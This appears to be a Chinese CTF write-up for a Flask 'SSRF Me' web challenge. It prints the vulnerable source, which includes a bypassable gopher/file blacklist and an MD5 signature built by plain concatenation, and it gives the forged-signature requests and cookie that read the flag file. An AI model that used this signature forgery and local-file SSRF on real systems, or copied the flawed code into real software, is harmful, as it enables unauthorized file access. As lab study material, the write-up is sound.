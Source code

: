 ![[Pasted image 20221214153844.png]]

---
首页长这样

![[Pasted image 20221214154030.png]]

心肺停止，你python都能代码压缩的吗
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
import imp

imp.reload(sys)

app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print(resp)
                    tmpfile.write(resp)
                    tmpfile.close()
                    result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
                if result['code'] == 500:
                    result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
            return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.request.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.request.unquote(request.cookies.get("action")) # Get action from cookie
    param = urllib.request.unquote(request.args.get("param", "")) # Get param from url query
    sign = urllib.request.unquote(request.cookies.get("sign")) # Get sign from cookie
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.request.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param): # param should not start with gopher or file
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```
格式化代码比读代码还累.jpg

这波是吃了文化的亏，`python2`的`urlopen`原来不指定协议的时候默认就是`file`协议QAQ

总体思路就是利用`getSign`拼接顺序的漏洞绕过`Task.checkSign`和`geneSign`共同构成的对可用`action`的限制

令`param='flag.txtread'`，通过`geneSign`拼接而成的`md5(secret_key + 'flag.txtreadscan')`同指定`param='flag.txt'` `action='readscan'`相同

---
**获取`Sign`**
```php
/geneSign?param=flag.txtread
```
> 61dc9e0bbd275404f5bc301cf7b2ebde

---
**获取`flag`**
```php
/De1ta?param=flag.txt
```

**`Cookie`**
```http
Cookie: action=readscan; sign=61dc9e0bbd275404f5bc301cf7b2ebde
```
> {"code": 200, "data": "flag{6bbd3cad-1afd-4883-948c-70061755f1f3}\n"}

#Web #python #bypass #SSRF #HTTP #function 